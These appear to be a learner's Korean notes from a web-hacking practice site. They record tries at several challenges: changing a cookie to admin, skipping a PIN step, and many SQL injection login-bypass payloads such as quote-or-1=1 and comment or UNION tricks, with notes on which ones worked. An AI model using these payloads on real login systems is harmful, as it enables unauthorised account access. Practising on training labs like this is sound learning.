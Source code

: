 # get admin
![alt text](image.png)
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
![alt text](image-2.png)
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# admin is mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
![alt text](image-3.png)
플래그는 안 보임 ㄲㅂ
1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O

# login bypass 3
1. 
id: doldol'#
pw: dol1234
2. 
id: normaltic3'#
pw: asdf
-> x
3. 
id: doldol') union select 'normaltic3', '1111
pw: 1111
-> x
4. 
id: doldol') union select 'normaltic3', '1111'#
pw: 1111
5. 
id: doldol' union select 'normaltic3', '1111', '2222'#
pw: 1111, 2222
-> x
6. 
id: normaltic3'#
pw: ' or '1' = '1
-> x
7. 
id: doldol
pw: dol1234' or '1' = '1
-> x
8. 
id: doldol')#
pw: dol1234
-> x
9. 
id: doldol'#
pw: dol1234'#
-> x
10. 
id: doldol' or '1' = '1'
pw: dol1234
-> x

# login bypass 4
1. 
id: doldol' or '1' = '1
pw: dol1234
-> x
2. 
id: doldol'#
pw: dol1234
3. 
id: doldol'or
pw: dol1234
-> x
4. 
id: doldol')#
pw: dol1234
-> x
5. 